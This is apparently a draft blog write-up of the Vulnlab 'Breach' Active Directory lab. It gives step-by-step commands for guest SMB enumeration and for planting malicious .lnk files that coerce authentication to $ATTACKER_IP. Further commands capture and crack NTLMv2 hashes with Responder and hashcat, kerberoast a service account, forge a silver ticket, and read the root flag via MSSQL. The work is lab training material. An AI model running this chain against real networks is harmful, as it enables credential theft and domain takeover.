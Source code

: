 +++
title = 'Vulnlab_breach'
date = 2024-10-21T10:25:48+02:00
draft = true
+++

![Proof](/images/vulnlab_breach/banner.png)

# Walkthrough

## 1. Enumeration
Testing Null sessions, and guest sessions reveals a Working guest session.
```bash
nxc smb "$DC_IP" -u 'a' -p '' --shares
```
![Shares](/images/vulnlab_breach/shares.png)
We have access to three shares:
* IPC$
* share
* Users

A guest session also lets us enumerate all users
```bash
nxc smb "$DC_IP" -u 'a' -p '' --rid-brute | tee u
grep SidTypeUser u | cut -d '\' -f2 | cut -d ' ' -f1 | tee users.txt
```

![Users](/images/vulnlab_breach/usernames.png)

### 1a. Placing shortcut files on SMB shares to grab NTLMv2 hashes
Mounting the shares for quick access, by putting the sharenames into 'list.txt':
```
cat list.txt
Admin$
C$
IPC$
NETLOGON
share
SYSVOL
Users
```

```bash
while read SHARE; do mkdir "$SHARE"; mount -t cifs //"$DC_IP"/"$SHARE" "$SHARE" -o username=guest,password=''; done < list.txt
mount -t cifs
```

![mounted](/images/vulnlab_breach/mounted.png)

Listing the share with 
```
tree -a
```
reveals no credentials. However, it does show a lot of `.lnk` files, which reminds us to Google for shortcut files, which leads to a [Post](https://www.thehacker.recipes/ad/movement/mitm-and-coerced-authentications/living-off-the-land#shortcut-files-scf-lnk-url) from Hacker recipies.

Shortcut files can be placed in a SMB Share. If anyone uses a file explorer to view the files, we can grab their NTLMv2 Hash.

If there was a host with SMB singing off, this could be relayed for a SMB Session.
Since there is only one target, it's only feasible to use `Responder` and crack the hash.

First generate one malicious file with `ntlm_theft.py` in all the shares we have write access:

```bash
# Create one malicious file
nxc smb "$DC_IP" -u 'guest' -p '' -M slinky -o SERVER="$ATTACKER_IP" NAME="@Q4Bonus"
# Copy that file to all folders
find . -writable -exec cp /root/shares/share/@Q4Bonus.lnk {} \;
```

This put the file in all these shares
```bash
find . -name '@Q4Bonus.lnk'
./Users/Public/@Q4Bonus.lnk
./Users/Public/AccountPictures/@Q4Bonus.lnk
./Users/Public/Documents/@Q4Bonus.lnk
./Users/Public/Downloads/@Q4Bonus.lnk
./Users/Public/Libraries/@Q4Bonus.lnk
./Users/Public/Music/@Q4Bonus.lnk
./Users/Public/Pictures/@Q4Bonus.lnk
./Users/Public/Videos/@Q4Bonus.lnk
./@Q4Bonus.lnk
./share/@Q4Bonus.lnk
./share/finance/@Q4Bonus.lnk
./share/software/@Q4Bonus.lnk
./share/transfer/@Q4Bonus.lnk
```

After starting Responder, immediately some Hashes occur:

```bash
Responder -I tun0
```
![Responder](/images/vulnlab_breach/Responder.png)

## 2. Julia Wong

Cracking the hash with hashcat and the `rockyou.txt` wordlist reveals the password `C*******1`
```bash
hashcat -m 5600 hash.txt /opt/rockyout.txt
```
Julia has more access to shares:
![julia_shares](/images/vulnlab_breach/julia_shares.png)

Which get remounted with the following command.
```bash
while read SHARE; do umount "$SHARE"; mkdir "$SHARE"; mount -t cifs //"$DC_IP"/"$SHARE" "$SHARE" -o username="$USER",password="$PASSWORD"; done < list.txt
```

The user flag can be found in 
```
./share/transfer/julia.wong/local.txt
```

<!-- ### 2a. Bloodhound
Gathering Bloodhound data with `rusthound`:
```bash
rusthound -d "$DOMAIN" -u "$USER"@"$DOMAIN" -p "$PASSWORD" --zip --adcs --old-bloodhound  
```

Reveals no interesting information immediatly... -->


### 2a. Kerberoastable accounts
The following command uses kerberoasting to get hashes from 
Accounts with SPN enabled.
```bash
GetUserSPNs.py -outputfile Kerberoastables.txt -dc-ip "$DC_IP" "$DOMAIN"/"$USER":"$PASSWORD"
```

![getuserspn](/images/vulnlab_breach/getuserspn.png)

The from the command we can read the SPN:
```bash
MSSQLSvc/breachdc.breach.vl:1433
```


Using 
```bash
hashcat -m 13100 Kerberoastables.txt /opt/rockyou.txt
```

This gives the user `svc_mssql` with the password `T******1`

## 3. Svc_mssql -> Silver ticket
Armed with the NTLM-hash of the `svc_mssql` user, it is possible to create a [silver ticket](https://www.thehacker.recipes/ad/movement/kerberos/forged-tickets/silver)

This effectively allows an attacker to impersonate any user on the server.

The command is:
1. Get the DOMAIN-SID with 
```bash
lookupsid.py -hashes :"$NT_HASH" "$DOMAIN"/"$USER"@"$DC_HOST" 0
```
2. Forge a silver ticket
```bash
ticketer.py -nthash "$NT_HASH" -domain-sid "$DOMAIN_SID" -domain "$DOMAIN" -spn MSSQLSvc/breachdc.breach.vl:1433 administrator
```
3. Authenticate with silver ticket
```bash
export KRB5CCNAME="$(pwd)/Administrator.ccache"
mssqlclient.py -k "$DC_HOST"."$DOMAIN"  
```
![mssqlclient](/images/vulnlab_breach/mssqlclient.png)

The Root flag can be then accessed via the mssqlclient:
```sql
SELECT * FROM OPENROWSET(BULK N'C:\Users\Administrator\Desktop\root.txt', SINGLE_CLOB) AS Contents
```